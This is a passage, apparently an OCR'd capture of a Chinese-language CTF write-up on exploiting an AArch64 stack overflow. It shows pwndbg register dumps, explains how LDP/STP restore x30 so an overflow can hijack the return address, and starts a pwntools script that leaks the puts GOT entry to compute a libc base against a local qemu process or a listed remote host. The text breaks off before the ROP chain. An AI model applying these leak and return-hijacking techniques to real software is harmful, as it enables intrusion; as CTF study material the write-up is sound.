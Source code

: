 ```c
 X13  0x0
 X14  0x0
 X15  0x6fffff47
 X16  0x1
 X17  0x40008b1928 (puts) ◂— stp    x29, x30, [sp, #-0x40]!
 X18  0x73516240
 X19  0x4009b8 (__libc_csu_init) ◂— stp    x29, x30, [sp, #-0x40]!
 X20  0x0
 X21  0x4006f0 (_start) ◂— movz   x29, #0
 X22  0x0
 X23  0x0
 X24  0x0
 X25  0x0
 X26  0x0
 X27  0x0
 X28  0x0
 X29  0x40007ffdd0 —▸ 0x40007ffdf0 ◂— 0x0
 SP   0x40007ffdd0 —▸ 0x40007ffdf0 ◂— 0x0
*PC   0x400948 (overflow) ◂— stp    x29, x30, [sp, #-0x90]!
```

需要通过 `info reg x30` 查看具体值：

```c
pwndbg> info reg x30
x30            0x400864            4196452
```

其中重点需要关注的质量是：

`LDP x29, x30, [sp], #0x40`：将`sp`弹栈到`x29`，`sp+0x8`弹栈到`x30`，最后`sp += 0x40`。

`STP x4, x5, [sp, #0x20]`：将`sp+0x20`处依次覆盖为`x4，x5`，即`x4`入栈到`sp+0x20`，`x5`入栈到`sp+0x28`，最后`sp`的位置不变。

可以注意到，程序会将栈中的数据写入到 x30 寄存器来修改返回值，这意味栈溢出仍然能够劫持执行流。


然后就是漫长的调试去通过 ROP 确定返回劫持控制流了：这里直接用了 Nirvana 师傅的 ROP 链

```python
from pwn import *
context(os = "linux", arch = 'aarch64', log_level = 'debug')
libc = ELF('./libc.so.6')
file = './pwn'
elf = ELF(file)

local = 1
if local:
	io = process('qemu-aarch64 -g 1234 ./pwn', shell=True)
else:
	io = remote('39.106.76.68',30154)

r = lambda : io.recv()
rx = lambda x: io.recv(x)
ru = lambda x: io.recvuntil(x)
rud = lambda x: io.recvuntil(x, drop=True)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda x, y: io.sendafter(x, y)
sla = lambda x, y: io.sendlineafter(x, y)
li = lambda name,x : log.info(name+':'+hex(x))
shell = lambda : io.interactive()

ru('>\n')
s('1')
ru('sensible>>\n')
s(p64(elf.got['puts']))
libcbase = u64(rx(3).ljust(8,b'\x00')) + 0x4000000000 - libc.sym['puts']
```